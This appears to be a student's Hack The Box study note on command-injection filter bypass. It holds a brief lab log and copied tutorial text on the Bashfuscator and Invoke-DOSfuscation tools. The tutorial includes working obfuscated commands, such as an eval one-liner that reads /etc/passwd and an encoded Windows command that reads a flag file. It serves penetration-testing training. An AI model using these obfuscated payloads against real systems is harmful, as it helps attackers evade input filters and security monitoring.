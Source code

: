 ## !!IMPORTANT!!
This module focuses on how one would by pass filter. Either on Linux or Windows

[[CBBH_Command_Injections_Skill_Assessment]]
## Bypassing Blacklisted Commands/Characters
First instinct is to identify what CHARACTER works
![[Pasted image 20250307001530.png]]

We also find out the certain commands work like ls and dir.
![[Pasted image 20250307001556.png]]

With this knowledge, we can traverse to home and to user
![[Pasted image 20250307002121.png]]

We finally found flag
![[Pasted image 20250307002147.png]]
But cat seems to be blacklisted
![[Pasted image 20250307002215.png]]

Obfuscate it to get the flag
![[Pasted image 20250307002251.png]]

#### ections   

1. Page 10
2. Evasion Tools

# Evasion Tools

---

If we are dealing with advanced security tools, we may not be able to use basic, manual obfuscation techniques. In such cases, it may be best to resort to automated obfuscation tools. This section will discuss a couple of examples of these types of tools, one for `Linux` and another for `Windows.`

---

## Linux (Bashfuscator)

A handy tool we can utilize for obfuscating bash commands is [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator). We can clone the repository from GitHub and then install its requirements, as follows:

```shell-session
alakin2504@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
alakin2504@htb[/htb]$ cd Bashfuscator
alakin2504@htb[/htb]$ pip3 install setuptools==65
alakin2504@htb[/htb]$ python3 setup.py install --user
```

Once we have the tool set up, we can start using it from the `./bashfuscator/bin/` directory. There are many flags we can use with the tool to fine-tune our final obfuscated command, as we can see in the `-h` help menu:

```shell-session
alakin2504@htb[/htb]$ cd ./bashfuscator/bin/
alakin2504@htb[/htb]$ ./bashfuscator -h

usage: bashfuscator [-h] [-l] ...SNIP...

optional arguments:
  -h, --help            show this help message and exit

Program Options:
  -l, --list            List all the available obfuscators, compressors, and encoders
  -c COMMAND, --command COMMAND
                        Command to obfuscate
...SNIP...
```

We can start by simply providing the command we want to obfuscate with the `-c` flag:

```shell-session
alakin2504@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'

[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters
```

However, running the tool this way will randomly pick an obfuscation technique, which can output a command length ranging from a few hundred characters to over a million characters! So, we can use some of the flags from the help menu to produce a shorter and simpler obfuscated command, as follows:

```shell-session
alakin2504@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

[+] Mutators used: Token/ForCode
[+] Payload:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters
```

We can now test the outputted command with `bash -c ''`, to see whether it does execute the intended command:

```shell-session
alakin2504@htb[/htb]$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...
```

We can see that the obfuscated command works, all while looking completely obfuscated, and does not resemble our original command. We may also notice that the tool utilizes many obfuscation techniques, including the ones we previously discussed and many others.

Exercise: Try testing the above command with our web application, to see if it can successfully bypass the filters. If it does not, can you guess why? And can you make the tool produce a working payload?

---

## Windows (DOSfuscation)

There is also a very similar tool that we can use for Windows called [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation). Unlike `Bashfuscator`, this is an interactive tool, as we run it once and interact with it to get the desired obfuscated command. We can once again clone the tool from GitHub and then invoke it through PowerShell, as follows:

```powershell-session
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help

HELP MENU :: Available options shown below:
[*]  Tutorial of how to use this tool             TUTORIAL
...SNIP...

Choose one of the below options:
[*] BINARY      Obfuscated binary syntax for cmd.exe & powershell.exe
[*] ENCODING    Environment variable encoding
[*] PAYLOAD     Obfuscated payload via DOSfuscation
```

We can even use `tutorial` to see an example of how the tool works. Once we are set, we can start using the tool, as follows:

```powershell-session
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

...SNIP...
Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```

Finally, we can try running the obfuscated command on `CMD`, and we see that it indeed works as expected:

```cmd-session
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

test_flag
```

Tip: If we do not have access to a Windows VM, we can run the above code on a Linux VM through `pwsh`. Run `pwsh`, and then follow the exact same command from above. This tool is installed by default in your `Pwnbox` instance. You can also find installation instructions at this [link](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell-core-on-linux)

For more on advanced obfuscation methods, you may refer to the [Secure Coding 101: JavaScript](https://academy.hackthebox.com/course/preview/secure-coding-101-javascript) module, which covers advanced obfuscations methods that can be utilized in various attacks, including the ones we covered in this module.